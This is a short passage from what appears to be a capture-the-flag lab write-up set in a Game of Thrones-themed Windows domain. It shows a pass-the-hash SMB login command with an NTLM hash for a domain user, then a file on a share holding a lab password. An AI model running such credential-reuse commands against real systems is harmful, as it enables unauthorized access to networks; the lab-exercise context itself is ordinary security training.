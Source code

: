 
I logged in with smbclient by passing the hash:

`smbclient.py -hashes :831486ac7f26860c9e2f51ac91e1a07a NORTH/robb.stark@10.4.10.22`

used all share:

`use all`

there i found an arya.txt file and inside it was a CTF with the password "Needle".

```bash
Subject: Quick Departure

Hey Arya,

I hope this message finds you well. Something urgent has come up, and I have to leave for a while. Don't worry; I'll be back soon.

I left a little surprise for you in your room – the sword You've named "Needle." It felt fitting, given your skills. Take care of it, and it'll take care of you.

I'll explain everything when I return. Until then, stay sharp, sis.```
